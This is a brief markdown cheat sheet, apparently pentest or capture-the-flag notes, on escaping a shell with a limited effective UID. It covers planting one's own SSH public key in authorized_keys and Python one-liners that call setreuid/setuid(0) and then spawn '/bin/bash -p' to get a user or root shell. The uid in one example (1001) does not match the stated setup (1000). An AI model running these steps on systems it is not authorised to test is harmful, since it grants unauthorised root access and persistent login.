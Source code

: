 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:

  euid user: 1000(Eve)

  uid user: 33 (www-data)

rough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

